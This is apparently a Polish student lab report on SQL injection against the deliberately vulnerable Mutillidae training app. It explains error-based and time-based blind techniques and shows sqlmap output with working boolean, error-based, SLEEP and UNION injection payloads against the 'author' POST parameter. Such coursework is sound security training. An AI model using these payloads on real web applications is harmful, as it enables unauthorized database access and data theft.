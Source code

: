 ## Nazwa podatności: SQLMAP Practice (SQL Injcetion - error-based oraz time-based blind)

**Istotność:** 10

---

**Opis:**
SQLMap to potężne narzędzie do automatycznego wykrywania i wykorzystywania podatności SQL Injection w aplikacjach internetowych. Jest napisane w języku Python i umożliwia atakującemu przeprowadzenie zautomatyzowanych testów penetracyjnych, identyfikując luki w zabezpieczeniach aplikacji, które mogą prowadzić do wstrzykiwania kodu SQL.

- SQL Injection - error-based:
W tej technice atakujący wykorzystuje błędy generowane przez bazę danych w odpowiedzi na wstrzyknięty złośliwy kod SQL. Atakujący wprowadza manipulujące zapytanie SQL dane, które mogą prowadzić do błędów w bazie danych. Następnie, poprzez analizę odpowiedzi serwera, atakujący jest w stanie uzyskać informacje na temat struktury bazy danych oraz jej zawartości. Na przykład, atakujący może próbować wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND '1'='1', które zawsze zwraca prawdę, ale prowadzi do błędu, jeśli typ danych jest nieprawidłowy. Analizując komunikaty o błędach, atakujący może wydedukować strukturę bazy danych i uzyskać dostęp do poufnych informacji.

- SQL Injection - time-based blind:
Ta technika jest używana, gdy aplikacja nie zwraca bezpośrednich komunikatów o błędach, ale atakujący jest w stanie dedukować informacje na temat bazy danych poprzez manipulowanie czasem odpowiedzi serwera. Atakujący wstrzykuje złośliwy kod SQL, który opóźnia odpowiedź serwera w zależności od prawdziwości określonego warunku. Na przykład, atakujący może wstrzyknąć zapytanie takie jak SELECT * FROM users WHERE id = '1' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),1) - jeśli pierwszy znak nazwy bazy danych to 'a', to zapytanie spowoduje opóźnienie odpowiedzi serwera. Analizując czas odpowiedzi, atakujący jest w stanie wnioskować informacje na temat struktury bazy danych i jej zawartości.

---

**Technika eksploatacji:**
Po wybraniu z listy rozwijanej użytkownika, którego blog chce się zobaczyć wysyłane jest poniższe zapytanie POST na serwer:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/5e298ba7-8a60-47bc-ab5a-d2da964b306b)

Utworzono plik request.txt z zawartością powyższego zapytania.
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/d430c661-7a72-42cf-8d33-dc39255b3728)

Atakowanymi parametrami są oraz `author` oraz `view-someones-blog-php-submit-button`.

Jak poniżej uruchomiono narzędzie sqlmap:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/163e2db8-bdf8-48d3-9057-1086ed0c81ca)

Wykryło ono, iż parametr `author` jest podatnym parametrem. Ostatecznym wynikiem działania programu sqlmap jest:
```sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: author (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: author=admin' AND 2783=2783#&view-someones-blog-php-submit-button=View Blog Entries

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: author=admin' AND (SELECT 9586 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(9586=9586,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OhCA&view-someones-blog-php-submit-button=View Blog Entries

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: author=admin' AND (SELECT 3065 FROM (SELECT(SLEEP(5)))GkAB)-- URoT&view-someones-blog-php-submit-button=View Blog Entries

    Type: UNION query
    Title: MySQL UNION query (random number) - 4 columns
    Payload: author=admin' UNION ALL SELECT 5318,5318,5318,CONCAT(0x7176717671,0x654b6f75534a4f4a415a596e4169706d436365645a45524d764b5a5078554c415779684b6b744351,0x716b706b71)#&view-someones-blog-php-submit-button=View Blog Entries
---
```


